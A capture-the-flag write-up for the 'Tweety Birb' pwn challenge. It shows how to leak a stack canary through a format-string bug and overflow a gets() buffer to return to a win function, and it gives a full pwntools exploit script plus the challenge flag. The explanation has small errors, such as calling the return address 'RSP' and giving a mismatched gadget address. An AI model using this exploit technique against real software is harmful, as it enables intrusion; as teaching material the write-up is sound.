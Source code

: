 ```yaml
---
layout: writeup
title: Tweety Birb
ctf: Killer Queen CTF
points: 248
solves: 129
tags: 
    - pwn
date: 2021-11-01
description: |-
    Pretty standard birb protection.
flag: kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

We are given a binary with the following main function
```c
int main(void) {
    char buffer [72];
    long canary = *(long *)(in_FS_OFFSET + 0x28);

    puts("What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it\'s not like you hacker can do anything. Anyways, what do you think of magpies?");
    gets(buffer);
    printf(buffer);

    puts("\nhmmm interesting. What about water fowl?");
    gets(buffer);
    
    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return 0;
}
```
We have a buffer of size 72. First, we have a call to `gets`, allowing us to write anything, including more than 72 characters, so we have a buffer overflow.

We also have a `win` function elsewhere which calls `cat flag.txt` in a shell, so we want to return to this by overwriting RSP. The problem here (which the title hints at) is that canaries are enabled. This means a random value is set up in the beginning of `main` right after the other local variables. At the end of `main` it checks if this canary has been modified, and if so crashes.

So the second we write more than 72 bytes to the buffer, we modify the canary, which results in a crash. What we want to modify lies after the canary.

The only way to get around this is by somehow leaking the canary. If we can do this, we can write 72 bytes of padding, followed by the canary and then what we want to place in RBP and RSP.

Luckily we ALSO have a format string vulnerability, since `printf(buffer)` is called directly on our input, allowing us to pass any format string. Since no other arguments are passed, if we input e.g. `%x`, the value that it prints will just be the next on the stack.

The canary also lies on the stack and by using `gdb` to debug the program, we can get the correct index in the stack, in this case 15. This means that if we pass `%15$p` to the first `gets()`, then the stack canary is leaked in the `printf()`.

We find the address of the `win` function with `objdump -d tweetybirb | grep win`, which returns `00000000004011d6 <win>:`. Now we can create the following payload:

- 72 bytes of padding
- leaked canary
- rbp (8 random bytes)
- rsp (0x4011d6)

We also need to remember to align the stack when run remotely, so we find a `ret` gadget with `ropper -f tweetybird` at address 0x4011d6 and add this before the `win` address.

We get the flag with the following script:

```python
from pwn import *

p = remote("143.198.184.186", 5002)

# LEAK CANARY IN 
p.recvuntil(b"?\n")
p.sendline(b"%15$p")

canary = p64(int(p.recvline()[2:-1], 16))
log.success(f"Canary leaked: {canary}")

p.recvuntil(b"?\n")

# BUFFER OVERFLOW
padding = b"A" * 72
rbp = b"B" * 8
ret = p64(0x40101a)
win_addr = p64(0x4011d6)

payload = padding + canary + rbp + ret + win_addr
p.sendline(payload)

p.interactive()
```
The flag returned is